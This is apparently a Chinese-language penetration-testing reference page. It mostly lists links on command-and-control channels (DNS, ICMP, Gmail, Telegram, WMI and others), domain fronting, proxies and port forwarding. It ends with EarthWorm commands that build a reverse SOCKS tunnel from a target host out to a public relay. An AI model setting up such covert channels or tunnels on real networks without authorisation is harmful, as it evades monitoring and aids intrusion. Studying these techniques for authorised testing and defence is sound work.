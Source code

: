 ### 无线Wi-Fi接入 

## 隐匿攻击 

### Command and Control  
* ICMP :https://pentestlab.blog/2017/07/28/command-and-control-icmp/
* DNS :https://pentestlab.blog/2017/09/06/command-and-control-dns/
* DropBox :https://pentestlab.blog/2017/08/29/command-and-control-dropbox/
* Gmail :https://pentestlab.blog/2017/08/03/command-and-control-gmail/
* Telegram :http://drops.xmd5.com/static/drops/tips-16142.html
* Twitter :https://pentestlab.blog/2017/09/26/command-and-control-twitter/
* Website Keyword :https://pentestlab.blog/2017/09/14/command-and-control-website-keyword/
* PowerShell :https://pentestlab.blog/2017/08/19/command-and-control-powershell/
* Windows COM :https://pentestlab.blog/2017/09/01/command-and-control-windows-com/
* WebDAV :https://pentestlab.blog/2017/09/12/command-and-control-webdav/
* Office 365 :https://www.anquanke.com/post/id/86974
* HTTPS :https://pentestlab.blog/2017/10/04/command-and-control-https/
* Kernel :https://pentestlab.blog/2017/10/02/command-and-control-kernel/
* Website :https://pentestlab.blog/2017/11/14/command-and-control-website/
* WMI :https://pentestlab.blog/2017/11/20/command-and-control-wmi/
* WebSocket :https://pentestlab.blog/2017/12/06/command-and-control-websocket/
* Images :https://pentestlab.blog/2018/01/02/command-and-control-images/
* Web Interface :https://pentestlab.blog/2018/01/03/command-and-control-web-interface/
* JavaScript :https://pentestlab.blog/2018/01/08/command-and-control-javascript/
*  ... 

### Froting 
* [Domain Fronting ](https://evi1cg.me/archives/Domain_Fronting.html)
* [Tor_Fronting.](https://evi1cg.me/archives/Tor_Fronting.html)
    
### 代理 
* VPN 
* shadowsockts :https://github.com/shadowsocks
* HTTP :http://cn-proxy.com/
* Tor 

## 内网跨边界应用 

### 内网跨边界转发 
* [NC端口转发](https://blog.csdn.net/l_f0rm4t3d/article/details/24004555) 
* [LCX端口转发 ](http://blog.chinaunix.net/uid-53401-id-4407931.html)
* 代理脚本 
    1. [Tunna ](https://github.com/SECFORCE/Tunna)
    2. [Reduh ](https://github.com/sensepost/reDuh)
* - ... 
    
### 内网跨边界代理穿透 
#### [EW](http://rootkiter.com/EarthWorm/) 
正向 SOCKS v5 服务器:
```
./ew -s ssocksd -l 1080
```
 反弹 SOCKS v5 服务器:
a) 先在一台具有公网 ip 的主机A上运行以下命令：
```
$ ./ew -s rcsocks -l 1080 -e 8888 

```
b) 在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的 8888端口
```
$ ./ew -s rssocks -d 1.1.1.1 -e 8888 
```